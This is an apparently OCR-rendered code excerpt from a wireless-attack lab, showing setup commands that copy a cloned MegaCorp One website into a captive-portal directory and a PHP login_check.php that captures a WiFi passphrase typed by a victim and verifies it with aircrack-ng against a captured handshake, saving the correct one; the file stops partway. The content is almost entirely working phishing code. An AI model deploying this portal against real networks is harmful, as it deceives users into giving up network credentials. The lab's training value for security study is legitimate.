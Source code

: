 ```
				</div>
			</div>
		</div>

	</body>
</html>

#setting up 
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/

#writing  login_check.php
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
```